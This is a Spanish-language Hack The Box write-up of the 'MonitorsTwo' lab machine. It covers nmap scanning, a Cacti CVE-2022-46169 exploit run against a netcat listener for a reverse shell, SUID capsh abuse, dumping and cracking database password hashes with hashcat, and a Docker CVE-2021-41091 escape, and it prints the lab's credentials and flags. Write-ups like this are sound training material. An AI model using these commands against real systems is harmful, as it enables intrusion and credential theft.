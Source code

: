 ```yaml
---
title: MonitorsTwo HTB
date: 2023-07-12
tier: easy
author: naibu3
---
```


## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.211
```
```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Ahora buscamos versiones y más información:

```bash
sudo nmap -sCV -p22,80 10.10.11.211
```
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Como parece que la explotación irá via web, podemos ir lanzando el script `http-enum` de [[nmap]]:

```bash
sudo nmap --script http-enum -p80 10.10.11.211
```
```nmap
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /docs/: Potentially interesting folder
```

Si accedemos a la web, veremos una pestaña de login de un servicio llamado **Cacti**, vemos también un número de versión, la **1.2.22**. Con una breve búsqueda en internet vemos que:

> Cacti es una completa solución de gráficos, monitoreo de redes y recopilación de datos que aprovecha el poder de RRDtool. Con la herramienta Cacti puedes sondear servicios a intervalos predeterminados y hacer gráficas con los datos resultantes.

Si buscamos junto a la versión, encontraremos que resulta ser vulnerable, además de un [repositorio](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) con un exploit en [[python 1]].

## Explotación

Si nos ponemos en escucha y lo ejecutamos:

```bash
nc -lvnp 39393
```

```bash
python3 exploit.py -u http://10.10.11.211 --LHOST=10.10.16.53 --LPORT=39393
```

Nos devolverá la conexión y obtendremos una shell:

```bash
bash-5.1$ whoami
whoami
www-data
```

Ahora podremos aplicar un [[Tratamiento de la tty]] para hacer más cómodo el reconocimiento del equipo ([[Reconocimiento del equipo]]). 

## Escalada de privilegios (Docker)

Como hemos visto, estamos bajo el usuario **www-data**, para tratar de listar usuarios podemos echar un vistazo al **/etc/passwd**, sobre el que tenemos permisos de lectura:

```passwd
root:x:0:0:root:/root:/bin/bash
[...]
```

En el que parece que el único usuario válido es **root**. Si ademś intentamos hacer un `echo $HOSTNAME`, nos dirá que es *50bca5e748b0*, lo que apunta a que la aplicación corre sobre un contenedor en [[Docker 1]]. Además, no está instalado *sudo* ni ningún editor.

Si comprobamos los **permisos SUID**:

```bash
find / -perm -4000 2>/dev/null
```
```find
[...]
/usr/bin/newgrp
/sbin/capsh
/bin/mount
[...]
```

Vemos que extrañamente **/sbin/capsh** tiene permisos SUID, si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/capsh/), vemos que podemos utilizarlo para convertirnos en **root**:

```bash
capsh --gid=0 --uid=0 --
```
```bash
root@50bca5e748b0:/var/www# whoami
root
```

Una vez como root, podemos leer el archivo **entrypoint.sh** de la raíz, donde vemos que se realizan conexiones a una base de datos:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

Si tratamos de ejecutar la siguiente línea `mysql --host=db --user=root --password=root cacti -e "show tables"`, veremos las tablas de la BD, donde nos llama la atención la tabla **user_auth**. Cambiamos la query para ver su contenido: 

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT username,password FROM user_auth"
```
```user_auth
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
```

Ahora tenemos varias contraseñas hasheadas. Pero podemos romper la del usuario **marcus** con [[hashcat 1]]:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```
```hashcat
[...]
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
[...]
```

Y ya tenemos credenciales para acceder por [[22-ssh]] (`marcus:funkymonkey`). Ya tenemos la **flag de usuario** (`a72d202358018ed22b191030c3109366`).

## Escalada de privilegios

Una vez dentrode la máquina no encontramos nada sospechoso, salvo porque la versión de [[Docker 1]] es antigua. Tras una búsqueda por internet, descubrimos que es vulnerable y nos permite escalar privilegios, además encontramos un exploit en el siguiente [repo](https://github.com/UncleJ4ck/CVE-2021-41091).

Seguimos las instrucciones, asignando privilegios a la bash del contenedor del que escapamos antes, y ejecutamos el script, introducimos *yes*, y ya somos **root**. 

Ya has resuleto la máquina (`a27ca576dbee82997c0c0bfaf769249b`)!